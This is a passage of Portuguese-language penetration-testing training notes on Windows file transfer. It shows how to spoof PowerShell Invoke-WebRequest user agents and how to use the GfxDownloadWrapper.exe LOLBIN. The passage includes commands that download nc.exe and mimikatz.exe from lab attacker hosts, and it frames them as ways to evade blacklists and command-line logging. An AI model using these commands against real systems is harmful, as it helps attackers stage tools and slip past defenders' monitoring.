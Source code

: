 Se administradores ou defensores diligentes tiverem colocado qualquer um desses User Agents na lista negra, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contém um parâmetro UserAgent, que permite alterar o user agent padrão para um que emule o Internet Explorer, Firefox, Chrome, Opera ou Safari.

#### Listando agentes de usuário
```powershell-session
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invocando Invoke-WebRequest para baixar nc.exe usando um Chrome User Agent:
#### Solicitação com o Chrome User Agent
```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```shell-session
NycolasES6@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```


## LOLBAS / GTFOBins
Se você não pode usar PowerShell ou Netcat devido a restrições de lista de permissões ou se o registro de linha de comando está monitorando suas ações, uma alternativa é usar um "LOLBIN" (Living Off The Land Binary).

Esses são binários legítimos do sistema que podem ser explorados para tarefas maliciosas. Um exemplo é o **Intel Graphics Driver para Windows 10 (GfxDownloadWrapper.exe)**, que possui uma funcionalidade embutida para baixar arquivos de configuração e pode ser utilizado para transferir arquivos de maneira discreta.

#### Transferindo arquivo com GfxDownloadWrapper.exe
```powershell-session
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Se a lista de permissões de aplicativos impede o uso de ferramentas como PowerShell ou Netcat e o registro de linha de comando gera alertas, você pode usar "LOLBAS" (living off the land binaries), ou binários de confiança deslocada. Um exemplo é o Intel Graphics Driver para Windows 10 (GfxDownloadWrapper.exe), que pode ser usado para baixar arquivos de configuração. O projeto LOLBAS é uma boa referência para encontrar esses binários, e o equivalente no Linux é o projeto GTFOBins, que lista binários comuns para transferências de arquivos.